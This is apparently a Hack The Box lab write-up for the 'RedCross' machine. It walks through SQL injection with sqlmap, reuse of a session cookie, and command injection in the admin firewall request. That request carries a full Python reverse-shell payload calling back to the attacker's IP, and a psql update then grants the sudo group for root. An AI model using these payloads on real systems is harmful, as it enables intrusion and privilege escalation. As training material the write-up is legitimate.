









---
search:
  exclude: true
---
# RedCross Writeup

## Introduction :

RedCross is a Medium linux box released back in November 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/RedCross]
      → nmap -sT -p- --min-rate 1000 10.10.10.113
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 13:17 GMT
      Nmap scan report for 10.10.10.113
      Host is up (0.055s latency).
      Not shown: 65532 filtered ports
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      443/tcp open  https
    
      Nmap done: 1 IP address (1 host up) scanned in 101.42 seconds
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/RedCross]
      → nmap -sV 10.10.10.113
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 13:19 GMT
      Nmap scan report for 10.10.10.113
      Host is up (0.059s latency).
      Not shown: 997 filtered ports
      PORT    STATE SERVICE  VERSION
      22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
      80/tcp  open  http     Apache httpd 2.4.25
      443/tcp open  ssl/http Apache httpd 2.4.25
      Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.73 seconds
    
    
    

## **Part 2 : Getting User Access**

Interesting thing initially here with this box is that we have problems scanning it: -sC takes forever, -sU returns nothing, and we only get 3 tcp ports opened: 22, 80 and 443. We have a domain name: redcross.htb

Browsing to http://10.10.10.113/ we get redirected to intra.redcross.htb so we'll add both redcross.htb and intra.redcross.htb to our /etc/hosts file:

And we seem to get access to some sort of an intranet, which looks like a php website. We launch dirsearch to find interesting directories:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → dirsearch -u https://intra.redcross.htb/ -t 50 -e html,txt,php,pdf -x 403
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, txt | HTTP method: get | Threads: 50 | Wordlist size: 6417
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-24_15-51-52.log
    
      Target: https://intra.redcross.htb/
    
      [15:51:53] Starting:
      [15:52:07] 301 -  334B  - /documentation  ->  https://intra.redcross.htb/documentation/
      [15:52:09] 301 -  327B  - /images  ->  https://intra.redcross.htb/images/
      [15:52:10] 302 -  463B  - /index.php  ->  /?page=login
      [15:52:10] 302 -  463B  - /index.php/login/  ->  /?page=login
      [15:52:10] 301 -  331B  - /javascript  ->  https://intra.redcross.htb/javascript/
      [15:52:14] 301 -  326B  - /pages  ->  https://intra.redcross.htb/pages/
    
      Task Completed
    
    

From here we dirsearch once more, but this time in /documentations (we know that documentations would most likely be either txt,php,html or pdf): 
    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~]
      └→gobuster dir -u https://intra.redcross.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -k -np -t 30 -x pdf,txt,php,html,doc
    
      [...]
    
      ===============================================================
      account-signup.pdf
      ===============================================================
    

Running the appropriate gobuster command we find a pdf file that we download locally using wget with it's --no-check-certificate flag: 
    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~/_HTB/RedCross]
      └→ wget --no-check-certificate https://intra.redcross.htb/documentation/account-signup.pdf
      --2020-03-31 12:13:16--  https://intra.redcross.htb/documentation/account-signup.pdf
      Resolving intra.redcross.htb (intra.redcross.htb)... 10.10.10.113
      Connecting to intra.redcross.htb (intra.redcross.htb)|10.10.10.113|:443... connected.
      WARNING: The certificate of ‘intra.redcross.htb’ is not trusted.
      WARNING: The certificate of ‘intra.redcross.htb’ doesn't have a known issuer.
      HTTP request sent, awaiting response... 200 OK
      Length: 26001 (25K) [application/pdf]
      Saving to: ‘account-signup.pdf’
    
      account-signup.pdf  100%[===================>]  25.39K  --.-KB/s    in 0.04s
    
      2020-03-31 12:13:16 (573 KB/s) - ‘account-signup.pdf’ saved [26001/26001]
    

` 

Looking at the pdf we are hinted towards using the contact page specifying an username in the body of the message in the form. Let's see if we can get something out of it : 

Now we have been able to get temporary default credentials guest:guest, so we login:

Now the hint here was, that the URL might be vulnerable to SQL injection: 
    
    
      https://intra.redcross.htb/?page=app
      https://intra.redcross.htb/?o=1'-- -&page;=app
    

` 

Now that we know it is vulnerable to SQLi, we intercept the request and save it locally in order to pass it to sqlmap:

    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~/_HTB/RedCross]
      └→ sqlmap -r request_sqli.req --batch --level=5 --risk=3 -D redcross -T users --dump
              ___
             __H__
       ___ ___[']_____ ___ ___  {1.4.3#stable}
      |_ -| . ["]     | .'| . |
      |___|_  [(]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 12:35:12 /2020-03-31/
    
    

Wait a bit and we get the 2 following results: 
    
    
      Database: redcross
      Table: users
      [5 entries]
      +----+------+------------------------------+----------+--------------------------------------------------------------+
      | id | role | mail                         | username | password                                                     |
      +----+------+------------------------------+----------+--------------------------------------------------------------+
      | 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
      | 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
      | 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
      | 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
      | 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
      +----+------+------------------------------+----------+--------------------------------------------------------------+
    
    
    
      Database: redcross
    Table: messages
    [8 entries]
    id,body,dest,origin,subject
    1,You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.,5,1,Guest Account Info
    2,"Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.",2,4,Problems with order 02122128
    3,"Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?",3,1,Strange behavior
    4,"Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.",4,2,Problems with order 02122128
    5,"Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!",2,3,admin subd webapp problems
    6,"Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR",3,2,admin subd webapp problems (priority)
    7,"Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side... ",1,2,STOP checking messages from intra (priority)
    8,Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP.,2,1,STOP checking messages from intra (priority)
    

And we have a few interesting results ! We could have also found them by doing a blind SQLi test like so :

using the filter reveals the url structure : **?o=1 &page;=app ** where the o parameter is injectable. and we can check it by using the following url :
    
    
      https://intra.redcross.htb/?o=...'5' or dest like 'OUR INPUT') LIMIT 10&page;=app
    

` 

Knowing this, we can use the following url to have **or dest like '%'** in the query which is always **true** and will return all results, therefore achieving the sql injection results sqlmap found earlier: 
    
    
      https://intra.redcross.htb/?**o=%** &page;=app
    

` 

Now from here we have a bunch of interesting info such as the admin subdomain: 

Which gives us access to an Admin pannel. So we try our previous credentials guest:guest here and we get the following error :

But to bypass this error, we simply use the PHPSESSID we got from being logged as guest in intra.redcross.htb into admin.redcross.htb and therefore giving us access: 

Log in as guest:guest once again with the correct PHPSESSID: 

From there go to the firewall page and add your own ip adress so that it allows you access onto the box: 

Once that's done you head over to the users page to create yourself creds to use onto the ssh port of the box: 
    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~]
      └→ nmap -sCV -p22 10.10.10.113
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 19:41 BST
      Nmap scan report for redcross.htb (10.10.10.113)
      Host is up (0.063s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
      | ssh-hostkey:
      |   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
      |   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
      |_  256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 2.70 seconds
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~]
      └→ ssh nihilist@10.10.10.113
      The authenticity of host '10.10.10.113 (10.10.10.113)' can't be established.
      ECDSA key fingerprint is SHA256:yd04sZox5Ub78YD9IP7Yrslhv2TgP7lcFNiOBpZjCfk.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.113' (ECDSA) to the list of known hosts.
      nihilist@10.10.10.113's password:
      Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
    
      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.
    
      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      $ id
      uid=2020 gid=1001(associates) groups=1001(associates)
      $
    

And that's it ! we have been able to log onto the box via ssh, however from there we can't do much.

## **Part 3 : Getting Root Access**

The intended way was back in the IP Whitelisting page, so as we click "deny" on our own ip we basically intercept the request with foxyproxy and burpsuite, send it over to repeater (CTRL+R) and go there (CTRL+SHIFT+R)

And in this request the ip=10.10.14.42 parameter is actually command injectable as you can see:

So we made the box connect back to us using curl, therefore we can replace this curl command to send ourselves a reverse shell, and blindly guessing we'll use python to do so:

_Request:_
    
    
      POST /pages/actions.php HTTP/1.1
      Host: admin.redcross.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: https://admin.redcross.htb/?page=firewall
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 260
      DNT: 1
      Connection: close
      Cookie: PHPSESSID=**aj4fvk1cbntdjldcqhsicc1bk0**
      Upgrade-Insecure-Requests: 1
    
      ip=10.10.14.42;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((**"10.10.14.42",9002**));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&id;=13&action;=deny
    

` 

And we have a reverse shell as www-data! now let's upgrade our shell with a tty shell using python's pty module:
    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~]
      └→ nc -lvnp 9001
      Listening on 0.0.0.0 9001
      Connection received on 10.10.10.113 48644
      /bin/sh: 0: can't access tty; job control turned off
      $ id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      $ which python
      /usr/bin/python
      $ python -c 'import pty;pty.spawn("/bin/bash")'
      www-data@redcross:/var/www/html/admin/pages$ ls
      ls
      actions.php  cpanel.php    header.php  users.php
      bottom.php   firewall.php  login.php
    
    

Now from here, we had to take a look into actions.php : 
    
    
      www-data@redcross:/var/www/html/admin/pages$ cat actions.php | grep user
      cat actions.php | grep user
      	if(!isset($_POST['pass']) and !isset($_POST['user'])){
      	$user=$_POST['user'];
      	$mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
      	$sql=$mysqli->prepare("SELECT id, password, mail, role FROM users WHERE username = ?");
      	$sql->bind_param("s", $user);
      		$_SESSION['userid']=$id;
      		$_SESSION['username']=$user;
      	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
      		$res = pg_execute($dbconn, "q2", array($_SESSION['userid'], $ip));
      	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
      if($action==='adduser'){
      	$username=$_POST['username'];
      	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
      	$result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");
      	$result = pg_execute($dbconn, "q1", array($username, $phash));
      	echo "Provide this credentials to the user:  
      
    ";
      	echo "**$username : $passw**  
      
    [Continue](/?page=users)";
      	header('refresh:1;url=/?page=users');
      	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
    
    

Which revealed us a bunch of credentials and at the same time hinting us into /var/jail where the homedir is for the user we created earlier with our restricted shell:
    
    
      www-data@redcross:/var/www/html/admin/pages$ cd /var/jail/home
      cd /var/jail/home
      www-data@redcross:/var/jail/home$ ls -lash
      ls -lash
      total 16K
      4.0K drwxr-xr-x  4 root associates 4.0K Jun  9  2018 .
      4.0K drwxr-xr-x 10 root root       4.0K Jun  8  2018 ..
      4.0K drwxr-xr-x  2 root associates 4.0K Jun  8  2018 interface_data
      4.0K drwxrwxr-x  3 root associates 4.0K Jun  8  2018 public
    

back in actions.php, we see the deny action which allowed us to have command injection: 
    
    
      if($action==='deny'){
      	header('refresh:1;url=/?page=firewall');
      	$id=$_POST['id'];
      	$ip=$_POST['ip'];
      	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
      	$result = pg_prepare($dbconn, "q1", "DELETE FROM ipgrants WHERE id = $1");
      	$result = pg_execute($dbconn, "q1", array($id));
      	echo system("/opt/iptctl/iptctl restrict ".$ip);
      }
    

printing out the /etc/group file we see that the sudoers file have the gid 27:
    
    
      www-data@redcross:/var/www/html/admin/pages$ cat /etc/group | grep sudo
    cat /etc/group | grep sudo
    sudo:x:27:
    

So far we have been able to find the credentials to the psql database, so let's use them and poke around:
    
    
      www-data@redcross:/var/www/html/admin/pages$ **psql -h 127.0.0.1 -d unix -U unixusrmgr -W**
      Password for user unixusrmgr: **dheu%7wjx8B &**
    
      psql (9.6.7)
      SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
      Type "help" for help.
    
      unix=> **\dt**
      \dt
      WARNING: terminal is not fully functional
      -  (press RETURN)
                  List of relations
       Schema |     Name     | Type  |  Owner
      --------+--------------+-------+----------
       public | group_table  | table | postgres
       public | passwd_table | table | postgres
       public | shadow_table | table | postgres
       public | usergroups   | table | postgres
      (4 rows)
    

from there we can print out the hashed passwords in passwd_table and try to crack them using john but we'll go for [hipotermia's](https://hipotermia.pw/htb/redcross) awesome solution which consists in giving ourselves the group id (gid) of the sudoers:
    
    
      unix=> update passwd_table set gid=27 where username='nihilist';
      update passwd_table set gid=27 where username='nihilist';
      UPDATE 1
    

Once that's done, our user now has the group id of the sudoers, therefore we can login via ssh, use **sudo su** put in our own password and get a root shell: 
    
    
      ┌[ nihilist ]-[ Mahakala ]-[ 2020-03-31 ]-[ 10.10.14.42/23 ]-[~]
      └→ ssh nihilist@10.10.10.113
      nihilist@10.10.10.113's password:
      Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
    
      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.
    
      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      nihilist@redcross:~$ sudo su
    
      We trust you have received the usual lecture from the local System
      Administrator. It usually boils down to these three things:
    
          #1) Respect the privacy of others.
          #2) Think before you type.
          #3) With great power comes great responsibility.
    
      [sudo] password for nihilist:
      root@redcross:/var/jail/home# cat /root/root.txt && cat /home/penelope/user.txt
      89XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
      acXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user and the root flags ! 

## **Conclusion**

Here we can see the progress graph :

